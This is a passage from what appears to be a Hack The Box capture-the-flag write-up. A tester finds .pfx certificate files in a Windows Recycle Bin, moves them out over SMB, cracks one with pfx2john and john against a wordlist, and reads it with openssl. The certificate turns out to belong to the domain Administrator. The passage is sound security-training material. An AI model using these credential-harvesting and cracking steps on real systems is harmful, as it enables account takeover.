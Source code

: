 ```
10/13/2022  09:05 PM    <DIR>          S-1-5-21-3783586571-2109290616-3725730865-500
```

We can only access one of the directories, and it just has a bunch of `.pfx` files.

```
c:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE61-D5E0

 Directory of c:\$Recycle.Bin\S-1-5-21-3783586571-2109290616-3725730865-2663

10/12/2022  09:26 PM                98 $IZIX7VV.pfx
03/21/2022  04:37 PM             4,053 $RLYS3KF.pfx
10/12/2022  08:43 PM             4,280 $RZIX7VV.pfx
```

To transfer the files, we can copy them over to the `C:\share` directory and download them from SMB. All 3 files are data:

```
$ file *.pfx         
$IZIX7VV.pfx: data
$RLYS3KF.pfx: data
$RZIX7VV.pfx: data
```

Since all 3 are `pfx`, let's try to use `pfx2john` to crack them. We would be able to find one of the passwords:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash  
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Loaded hashes with cost 1 (iteration count) varying from 2000 to 2048
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abceasyas123     ($RLYS3KF.pfx)
```

Now we can use `openssl` to read more information about this:

```
$ openssl pkcs12 -info -in '$RLYS3KF.pfx'
Enter Import Password:
MAC: sha1, Iteration 2048
MAC length: 20, salt length: 8
PKCS7 Encrypted data: pbeWithSHA1And40BitRC2-CBC, Iteration 2048
Certificate bag
Bag Attributes
    localKeyID: 20 4F 12 47 3F D6 91 15 84 50 12 15 75 82 70 B2 57 01 D0 49 
subject=DC = htb, DC = windcorp, CN = Users, CN = Administrator
```
